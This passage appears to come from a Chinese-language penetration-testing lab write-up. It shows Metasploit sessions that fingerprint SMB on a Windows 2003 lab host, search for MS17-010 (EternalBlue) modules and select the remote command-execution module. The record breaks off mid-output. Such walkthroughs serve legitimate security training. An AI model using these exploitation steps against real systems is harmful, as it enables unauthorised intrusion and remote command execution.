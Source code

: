 发现445端口SMB，看下版本

```bash
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > options 

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.52.141:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[+] 192.168.52.141:445    -   Host is running Windows 2003 (build:3790) (name:ROOT-TVI862UBEH) (domain:GOD)
[*] 192.168.52.141:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

永恒之蓝打他，跑个ipconfig。

> use auxiliary/admin/smb/ms17_010_command 
>
> set rhosts 192.168.52.141 
>
> set command 命令
>
> run

```bash
msf6 auxiliary(scanner/smb/smb_version) > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 auxiliary(scanner/smb/smb_version) > use 2
msf6 auxiliary(admin/smb/ms17_010_command) > options 

Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                     Required  Description
   ----                  ---------------                     --------  -----------
```